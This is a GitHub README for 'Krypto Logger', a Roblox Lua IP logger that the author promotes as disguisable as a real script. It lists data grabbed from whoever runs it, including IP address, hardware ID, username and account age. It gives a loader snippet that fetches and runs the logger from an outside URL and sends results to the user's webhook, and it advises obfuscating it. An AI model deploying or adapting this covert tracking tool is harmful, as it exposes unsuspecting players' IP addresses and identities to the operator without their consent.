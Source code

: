 # Krypto Logger
*Advance modern IP-Logger that can be disguised as a real script. All under 200 lines!💃*

## Features 🔎

> *Specials*

* Anti-Webhook Spam
* HWID Grabber
* IP Grabber

> *Extras*

* Username Grabber
* Display Name Grabber
* User ID Grabber
* AccountAge Grabber
* Game ID Grabber
* Executor Grabber

> *Misc*

* Profile Link
* Game Link
* Executor LVL

## Configuring

A template on how to configure it. Make sure to obfuscate it 🕶

```lua
_G.Webhook = ""
_G.SomeoneExecuted = "<enter like what your ip logger name>"
loadstring(game:HttpGet('https://raw.githubusercontent.com/RENBex6969/KryptoLogger/main/KryptoLogger.lua')
```

### License
*If you do use my scripts or my work you will be automatically agreeing to the license in https://github.com/RENBex6969/KryptonReload*


